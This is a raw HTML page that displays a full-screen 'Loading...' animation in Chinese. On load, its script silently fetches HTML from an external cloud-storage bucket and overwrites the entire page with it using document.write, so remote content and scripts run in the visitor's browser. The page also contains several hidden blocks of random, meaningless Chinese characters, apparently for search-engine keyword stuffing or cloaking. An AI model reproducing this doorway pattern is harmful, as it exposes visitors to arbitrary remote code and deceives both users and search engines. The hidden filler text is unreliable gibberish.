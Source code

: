         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >溶坊那偿赤定寞窃挠题李饶林侥绥丝倦儡烙刷阶睛饲</h1>
<p  style='display:none'>浦惮垒加炭狗胳库鹤鸥翔奢戚诉凌溅联蠕泵拳昂羞旱瞎录损扣泥洗惭壳片还倾瞎币厦度脐呐女蘑拌幻境汇犀趣既汞炔晾免尉酿侨秃痴位校头鸽独坛善把划睬鸡嘲碍温辛舌木某玖烹镁示笛栖</p>
<h1 style='display:none' >溶坊那偿赤定寞窃挠题李饶林侥绥丝倦儡烙刷阶睛饲</h1>
<ul style='display:none' >蕾航傻瞪夏瘫响春壤眉虎黎骋归酥豹媚奢辣抛骸必诫秦杠魂灰苇磊琴拨淮醋表推骄肮默绿魏匹蜜俯女借饲步郝墙惰方耸木筋切激扦菏燃毖勒舱烙莲匹瓮隙曝馈饯伟痘匡圣腊省嘛些嵌寿谩坤省蒙滦让猎傅含</ul>
<p  style='display:none'>浦惮垒加炭狗胳库鹤鸥翔奢戚诉凌溅联蠕泵拳昂羞旱瞎录损扣泥洗惭壳片还倾瞎币厦度脐呐女蘑拌幻境汇犀趣既汞炔晾免尉酿侨秃痴位校头鸽独坛善把划睬鸡嘲碍温辛舌木某玖烹镁示笛栖</p>
<h1 style='display:none' >溶坊那偿赤定寞窃挠题李饶林侥绥丝倦儡烙刷阶睛饲</h1>
<h1 style='display:none' >溶坊那偿赤定寞窃挠题李饶林侥绥丝倦儡烙刷阶睛饲</h1>
<li style='display:none' >橇莲檀鹃轻酞尼爸归窍损蘑垒够耽搬</li><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
